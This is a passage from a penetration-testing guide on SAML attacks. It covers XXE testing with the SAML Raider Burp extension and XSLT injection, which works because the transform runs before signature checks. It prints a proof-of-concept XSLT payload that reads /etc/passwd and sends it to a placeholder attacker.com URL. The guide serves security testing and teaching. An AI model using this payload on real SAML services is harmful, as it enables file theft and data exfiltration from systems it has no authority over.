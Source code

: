 You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XXE vulnerabilities.

## XSLT via SAML

For more information about XSLT go to:

{% content-ref url="../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md](../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md)
{% endcontent-ref %}

Extensible Stylesheet Language Transformation (XSLT) is a Turing-complete language for transforming XML documents into other document types such as HTML, JSON, or PDF. An important aspect to note here is that **the attack doesn’t require a valid signature to succeed**. The reason for this is that **the XSLT transformation occurs before the digital signature is processed for verification**. Basically, we need a signed SAML Response to perform the attack, but the signature can be self-signed or invalid.

![xslt](https://epi052.gitlab.io/notes-to-self/img/saml/xslt.png)

Here you can find a **POC** to check for this kind of vulnerabilities, in the hacktricks page mentioned at the beginning of this section you can find for payloads.

```markup
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

### Tool

You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XSLT vulnerabilities.

## XML Signature Exclusion <a href="#xml-signature-exclusion" id="xml-signature-exclusion"></a>
